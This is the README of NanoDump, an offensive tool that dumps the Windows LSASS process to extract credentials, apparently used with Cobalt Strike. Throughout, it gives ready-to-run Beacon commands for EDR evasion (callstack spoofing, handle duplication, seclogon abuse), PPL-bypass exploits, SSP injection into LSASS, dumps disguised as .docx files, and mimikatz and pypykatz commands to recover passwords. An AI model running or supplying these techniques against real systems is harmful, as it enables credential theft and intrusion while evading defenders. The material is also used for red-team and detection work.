

# NanoDump

A flexible tool that creates a minidump of the LSASS process.



<h2>Table of contents</h2>

<ol>
  <li><a href="#usage">Usage</a></li>
  <li><a href="#features">Features</a></li>
  <li><a href="#combinations">Combining techniques</a></li>
  <li><a href="#examples">Examples</a></li>
  <li><a href="#redirectors">HTTPS redirectors</a></li>
</ol>

<h2 id="usage">1. Usage</h2>

```
usage: Z:\nanodump.x64.exe [--write C:\Windows\Temp\doc.docx] [--valid] [--duplicate] [--elevate-handle] [--duplicate-elevate] [--seclogon-leak-local] [--seclogon-leak-remote C:\Windows\notepad.exe] [--seclogon-duplicate] [--spoof-callstack svchost] [--silent-process-exit C:\Windows\Temp] [--shtinkering] [--fork] [--snapshot] [--getpid] [--help]
Dumpfile options:
    --write DUMP_PATH, -w DUMP_PATH
            filename of the dump
    --valid, -v
            create a dump with a valid signature
Obtain an LSASS handle via:
    --duplicate, -d
            duplicate a high privileged existing LSASS handle
    --duplicate-elevate, -de
            duplicate a low privileged existing LSASS handle and then elevate it
    --seclogon-leak-local, -sll
            leak an LSASS handle into nanodump via seclogon
    --seclogon-leak-remote BIN_PATH, -slt BIN_PATH
            leak an LSASS handle into another process via seclogon and duplicate it
    --seclogon-duplicate, -sd
            make seclogon open a handle to LSASS and duplicate it
    --spoof-callstack {svchost,wmi,rpc}, -sc {svchost,wmi,rpc}
            open a handle to LSASS using a fake calling stack
Let WerFault.exe (instead of nanodump) create the dump
    --silent-process-exit DUMP_FOLDER, -spe DUMP_FOLDER
            force WerFault.exe to dump LSASS via SilentProcessExit
    --shtinkering, -sk
            force WerFault.exe to dump LSASS via Shtinkering
Avoid reading LSASS directly:
    --fork, -f
            fork the target process before dumping
    --snapshot, -s
            snapshot the target process before dumping
Avoid opening a handle with high privileges:
    --elevate-handle, -eh
            open a handle to LSASS with low privileges and duplicate it to gain higher privileges
Miscellaneous:
    --getpid
            print the PID of LSASS and leave
Help:
    --help, -h
            print this help message and leave

```

<h3>Clone</h3>

```bash
git clone https://github.com/helpsystems/nanodump.git
```

<h3>Compile (optional)</h3>

<b>On Linux with MinGW</b>

```bash
make -f Makefile.mingw
```

<b>On Windows with MSVC</b> (No BOF support)

```bash
nmake -f Makefile.msvc
```

<h3>Import (CobaltStrike only)</h3>

Import the `NanoDump.cna` script on Cobalt Strike.

<h3>Run</h3>

Run the `nanodump` command in the Beacon console or the `nanodump.x64.exe` binary.

<h3>Restore the signature</h3>

If you didn't specify the `--valid` flag, you need to restore the invalid signature
```zsh
scripts/restore_signature <dumpfile>
```

<h3>Get the secretz</h3>

<b>mimikatz:</b>  
To get the secrets simply run:
```sh
mimikatz.exe "sekurlsa::minidump <dumpfile>" "sekurlsa::logonPasswords full" exit
```

<b>pypykatz:</b>  
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz).  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```

<h2 id="features">2. Features</h2>

<h3>Process forking</h2>

To avoid opening a handle to LSASS with `PROCESS_VM_READ`, you can use the `--fork` parameter.  
This will make nanodump create a handle to LSASS with `PROCESS_CREATE_PROCESS` access and then create a 'clone' of the process. This new process will then be dumped. While this will result in a process creation and deletion, it removes the need to read LSASS directly.

<h3>Snapshot</h2>

Similarly to the `--fork` option, you can use `--snapshot` to create a snapshot of the LSASS process.  
This will make nanodump create a handle to LSASS with `PROCESS_CREATE_PROCESS` access and then create a snapshot of the process using `PssNtCaptureSnapshot`. This new process will then be dumped. The snapshot will be freed automatically upon completion.

<h3>Handle duplication</h2>

As opening a handle to LSASS can be detected, nanodump can instead search for existing handles to LSASS.  
If one is found, it will copy it and use it to create the minidump.  
Note that it is not guaranteed to find such handle.

<h3>Elevate handle</h2>

You can obtaina handle to LSASS with PROCESS_QUERY_LIMITED_INFORMATION, which is likely to be whitelisted, and then elevate that handle by duplicating it.

<h3>Seclogon handle leak local</h2>

To avoid opening a handle to LSASS, you can use abuse the seclogon service by calling `CreateProcessWithLogonW` to leak an LSASS handle into the nanodump binary.  
To enable this feature, use the `--seclogon-leak-local` parameter.  
Take into account that when used from Cobalt Strike, an unsigned nanodump binary needs to be written to disk to use this feature.

<h3>Seclogon handle leak remote</h2>

This technique is very similar to the previous one, but instead of leaking the handle into nanodump, it is leaked into another binary and then duplicated so that nanodump can used it.
Use the `--seclogon-leak-remote` flag to access this functionality.

<h3>Seclogon handle duplication</h2>

You can trick the seclogon process to open a handle to LSASS and duplicate it before it is closed, by winning a race condition using file locks.
Use the `--seclogon-duplicate` flag to access this functionality.

<h3>Load nanodump as an SSP</h2>

You can load nanodump as an SSP in LSASS to avoid opening a handle.  
When the DLL has been loaded into LSASS, the parameters will be passed via a named pipe and once the dump is completed, `DllMain` will return FALSE to make LSASS unload the nanodump DLL.  
You can hardcode the parameters into the DLL and avoid using the named pipe altogether with the compiler flag `PASS_PARAMS_VIA_NAMED_PIPES=0`.  

<h4>Upload and load a nanodump DLL</h3>

By default, an unsigned nanodump DLL will be uploaded to the Temp folder which will be deleted automatically.  
```
beacon> nanodump_ssp -v -w C:\Windows\Temp\lsass.dmp
```

If you want to load a pre-existing DLL, you can run:
```
beacon> nanodump_ssp -v -w C:\Windows\Temp\lsass.dmp --load-dll C:\Windows\Temp\ssp.dll
```

<h3>PPL Dump exploit</h2>
If LSASS is running as Protected Process Light (PPL), you can try to bypass it using a userland exploit discovered by Project Zero. If it is successful, the dump will be written to disk.  

> Note that this vulnerability has been fixed in the July 2022 update pack (Windows 10 21H2 Build 19044.1826)

To access this feature, use the `nanodump_ppl_dump` command
```
beacon> nanodump_ppl_dump -v -w C:\Windows\Temp\lsass.dmp
```

<h3>PPL Medic exploit</h2>
Nanodump also implements the PPLMedic exploit, which works on systems that have the July 2022 update pack.  
The parameters will be passed to the nanodump DLL via a named pipe. You can hardcode the parameters into the DLL and avoid using the named pipe altogether with the compiler flag PASS_PARAMS_VIA_NAMED_PIPES=0.  

To access this feature, use the `nanodump_ppl_medic` command
```
beacon> nanodump_ppl_medic -v -w C:\Windows\Temp\lsass.dmp
```

<h3>WerFault</h2>
You can force the WerFault.exe process to create a full memory dump of LSASS. Take into consideration that this requires to write to the registry

Because the dump is not made by nanodump, it will always have a valid signature.

<h4>Silent Process Exit</h3>

To leverage the Silent Process Exit technique, use the `--silent-process-exit` parameter and the path there the dump should be created.
```
beacon> nanodump --silent-process-exit C:\Windows\Temp\
```

A dump of the nanodump process will also be created, similar to this:
```
PS C:\> dir 'C:\Windows\Temp\lsass.exe-(PID-648)-4035593\'

Directory: C:\Windows\Temp\lsass.exe-(PID-648)-4035593

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/23/2022   7:40 AM       58830409 lsass.exe-(PID-648).dmp
-a----         6/23/2022   7:40 AM        7862825 nanodump.x64.exe-(PID-3224).dmp
```

<h4>Shtinkering</h3>

You can also use the Shtinkering technique, which requires nanodump to run under SYSTEM.
```
beacon> nanodump --shtinkering
```

The dump will tipically be created under `C:\Windows\system32\config\systemprofile\AppData\Local\CrashDumps`

<h3>Spoof the callstack</h2>

You can open a handle to LSASS with a fake callstack, this makes the function call look a bit more legitimate.  
The offsets used in this feature, are only valid for Windows 10.0.19044.1706 (21h2), in other versions, the callstack might not look as expected. 
You can spoof the callstack of svchost, wmi and rpc.  
To access this feature, use the paramter `--spoof-callstack` with the values `svchost`, `wmi` or `rpc`.  

<h2 id="combinations">3. Combining techniques</h2>

You can combine many techniques to customize how nanodump operates.  
The following table indicates which flags can be used together.

|                        | --write | --valid | --duplicate | --elevate-handle | --duplicate-elevate    | --seclogon-leak-local | --seclogon-leak-remote | --seclogon-duplicate | --spoof-callstack | --silent-process-exit | --shtinkering | --fork | --snapshot | SSP | PPL_DUMP | PPL_MEDIC |
|------------------------|:-------:|:-------:|:-----------:|:-----------------:|:---------------------:|:---------------------:|:----------------------:|:--------------------:|:-----------------:|:---------------------:|:-------------:|:------:|:----------:|:---:|:--------:|:---------:|
| --write                | ✓       | ✓       | ✓           | ✓                 | ✓                     | ✓                     | ✓                      | ✓                    | ✓                 |                       |               | ✓      | ✓          |     | ✓        | ✓         |
| --valid                | ✓       | ✓       | ✓           | ✓                 | ✓                     | ✓                     | ✓                      | ✓                    | ✓                 |                       |               | ✓      | ✓          |     | ✓        | ✓         |
| --duplicate            | ✓       | ✓       | ✓           |                   |                       |                       |                        |                      |                   |                       | ✓             | ✓      | ✓          |     | ✓        |           |
| --elevate-handle       | ✓       | ✓       |             | ✓                 |                       |                       |                        |                      | ✓                 |                       | ✓             | ✓      | ✓          |     |          | ✓         |
| --duplicate-elevate    | ✓       | ✓       |             |                   | ✓                     |                       |                        |                      |                   |                       | ✓             | ✓      | ✓          |     |          |           |
| --seclogon-leak-local  | ✓       | ✓       |             |                   |                       | ✓                     |                        |                      |                   |                       | ✓             | ✓      | ✓          |     |          |           |
| --seclogon-leak-remote | ✓       | ✓       |             |                   |                       |                       | ✓                      |                      |                   |                       | ✓             | ✓      | ✓          |     |          |           |
| --seclogon-duplicate   | ✓       | ✓       |             |                   |                       |                       |                        | ✓                    |                   |                       | ✓             | ✓      | ✓          |     |          |           |
| --spoof-callstack      | ✓       | ✓       |             | ✓                 |                       |                       |                        |                      | ✓                 |                       | ✓             | ✓      | ✓          |     |          |           |
| --silent-process-exit  |         |         |             |                   |                       |                       |                        |                      |                   | ✓                     |               |        |            |     |          |           |
| --shtinkering          |         |         | ✓           | ✓                 | ✓                     | ✓                     | ✓                      | ✓                    | ✓                 |                       | ✓             |        |            |     |          |           |
| --fork                 | ✓       | ✓       | ✓           | ✓                 | ✓                     | ✓                     | ✓                      | ✓                    | ✓                 |                       |               | ✓      |            |     |          |           |
| --snapshot             | ✓       | ✓       | ✓           | ✓                 | ✓                     | ✓                     | ✓                      | ✓                    | ✓                 |                       |               |        | ✓          |     |          |           |
| SSP                    |         |         |             |                   |                       |                       |                        |                      |                   |                       |               |        |            | ✓   |          |           |
| PPL_DUMP               | ✓       | ✓       | ✓           |                   |                       |                       |                        |                      |                   |                       |               |        |            |     | ✓        |           |
| PPL_MEDIC              | ✓       | ✓       |             | ✓                 |                       |                       |                        |                      |                   |                       |               |        |            |     |          | ✓         |

<h2 id="examples">4. Examples</h2>

Read LSASS indirectly by creating a fork and write the dump to disk with an invalid signature:
```
beacon> nanodump --fork --write C:\lsass.dmp
```

Use the seclogon leak remote to leak an LSASS handle in a notepad process, duplicate that handle to get access to LSASS, then read it indirectly by creating a fork and download the dump  with a valid signature:
```
beacon> nanodump --seclogon-leak-remote C:\Windows\notepad.exe --fork --valid
```

Get a handle with seclogon leak local, read LSASS indirectly by using a fork and write the dump to disk with a valid signature (a nanodump binary will be uploaded!):
```
beacon> nanodump --seclogon-leak-local --fork --valid --write C:\Windows\Temp\lsass.dmp
```

Download the dump with an invalid signature (default):
```
beacon> nanodump
```

Duplicate an existing handle and write the dump to disk with an invalid signature:
```
beacon> nanodump --duplicate --write C:\Windows\Temp\report.docx
```

Get the PID of LSASS:
```
beacon> nanodump --getpid
```

Load nanodump in LSASS as an SSP (a nanodump binary will be uploaded!):
```
beacon> load_ssp
beacon> delete_file C:\Windows\Temp\[RANDOM].dll
```

Load nanodump in LSASS as an SSP remotely:
```
beacon> load_ssp \\10.10.10.10\openShare\nanodump_ssp.x64.dll
```

Dump LSASS bypassing PPL using the PPLDump exploit, duplicating the handle that csrss.exe has on LSASS:
```
beacon> nanodump_ppl_dump --duplicate --write C:\Windows\Temp\lsass.dmp
```

Dump LSASS bypassing PPL using the PPLMedic exploit, opening a low privileged handle to LSASS and then elevating it:
```
beacon> nanodump_ppl_medic --elevate-handle --write C:\Windows\Temp\lsass.dmp
```

Trick seclogon to open a handle to LSASS and duplicate it, then download the dump with an invalid signature:
```
beacon> nanodump --seclogon-duplicate
```

Make the WerFault.exe process create a full memory dump in the Temp folder:
```
beacon> nanodump --werfault C:\Windows\Temp\
```

Open a handle to LSASS with an invalid callstack and download the minidump with an invalid signature:
```
beacon> nanodump --spoof-callstack svchost
```

Use the Shtinkering techinque:
```
beacon> nanodump --shtinkering
```

Obtain a handle using seclogon leak local and create the dump using the Shtinkering techinque:
```
beacon> nanodump --seclogon-leak-local --shtinkering
```

Obtain a handle with low privs and elevate it using _elevate handle_:
```
beacon> nanodump --elevate-handle
```

Obtain a handle with low privs using a valid calling stack and elevate it using _elevate handle_:
```
beacon> nanodump --elevate-handle --spoof-callstack rpc
```

Duplicate an existing low priv handle and elevate it using _elevate handle_:
```
beacon> nanodump --duplicate-elevate
```

<h2 id="redirectors">5. HTTPS redirectors</h2>

If you are using an HTTPS redirector (as you should), you might run into issues when downloading the dump filessly due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
- [Antonio Cocomazzi](https://twitter.com/splinter_code) for [Abusing leaked handles to dump LSASS memory](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html) and [Racing for LSASS dumps](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html)
- [xpn](https://twitter.com/_xpn_) for [Exploring Mimikatz - Part 2 - SSP](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
- [Matteo Malvica](https://twitter.com/matteomalvica) for [Evading WinDefender ATP credential-theft: a hit after a hit-and-miss start](https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/)
- [James Forshaw](https://twitter.com/tiraniddo) for [Windows Exploitation Tricks: Exploiting Arbitrary Object Directory Creation for Local Elevation of Privilege](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- [itm4n](https://twitter.com/itm4n) for the original PPL userland exploits implementation, [PPLDump](https://github.com/itm4n/PPLdump) and [PPLMedic](https://github.com/itm4n/PPLmedic).
- [Asaf Gilboa](https://mobile.twitter.com/asaf_gilboa) for [Lsass Memory Dumps are Stealthier than Ever Before - Part 2](https://www.deepinstinct.com/blog/lsass-memory-dumps-are-stealthier-than-ever-before-part-2) and the Shtinkering technique
- [William Burgess](https://twitter.com/joehowwolf) for [Spoofing Call Stacks To Confuse EDRs](https://labs.withsecure.com/blog/spoofing-call-stacks-to-confuse-edrs)
- [Sebastian Feldmann](https://twitter.com/thefLinkk) and [Fabian](https://twitter.com/testert01) for the _elevate handle_ technique discussed at [Morph Your Malware!](https://www.youtube.com/watch?v=AucQUjJBJuw)
